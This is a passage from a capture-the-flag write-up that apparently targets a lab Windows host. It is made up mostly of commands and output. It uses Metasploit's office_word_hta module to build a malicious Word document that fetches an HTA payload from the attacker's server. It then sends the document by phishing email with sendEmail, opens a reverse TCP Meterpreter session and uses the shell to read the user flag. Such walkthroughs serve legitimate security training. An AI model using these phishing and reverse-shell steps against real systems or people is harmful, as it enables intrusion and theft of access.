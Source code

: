 ```bash
[*] Started reverse TCP handler on 10.10.14.25:4444
[+] msf.doc stored at /home/kali/.msf4/local/msf.doc
[*] Using URL: http://10.10.14.25:8080/default.hta
[*] Server started.
```
{% endcode %}

The exploit gives us a URL (`http://10.10.14.25:8080/default.hta`) and a malicious document (`/home/kali/.msf4/local/msf.doc`). We are now ready to send a phishing email to `nico`.

{% code overflow="wrap" %}
```bash
$ sendEmail -f x7331@megabank.com -t nico@megabank.com -u 'RTF Convertion' -m 'Please convert this file! Thanks!' -a /home/kali/.msf4/local/msf.doc -s 10.10.10.77
Mar 22 14:49:11 cspanias sendEmail[7666]: Email was sent successfully!
```
{% endcode %}

Once the file is opened, we get a hit back to our server.

{% code overflow="wrap" %}
```bash
msf6 exploit(windows/fileformat/office_word_hta) >
[*] Started reverse TCP handler on 10.10.14.25:4444
[+] msf.doc stored at /home/kali/.msf4/local/msf.doc
[*] Using URL: http://10.10.14.25:8080/default.hta
[*] Server started.
[*] Sending stage (176198 bytes) to 10.10.10.77
[*] Meterpreter session 1 opened (10.10.14.25:4444 -> 10.10.10.77:49525) at 2024-03-22 14:49:27 +0000

msf6 exploit(windows/fileformat/office_word_hta) > sessions

Active sessions
===============

  Id  Name  Type                     Information      Connection
  --  ----  ----                     -----------      ----------
  1         meterpreter x86/windows  HTB\nico @ REEL  10.10.14.25:4444 -> 10.10.10.77:49525 (10.10.10.77)

msf6 exploit(windows/fileformat/office_word_hta) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > getuid
Server username: HTB\nico
```
{% endcode %}

We can drop into a shell and grab the `user.txt` file.

```bash
meterpreter > shell
Process 3104 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\nico\Desktop\users.txt
374<REDACTED>a01
```
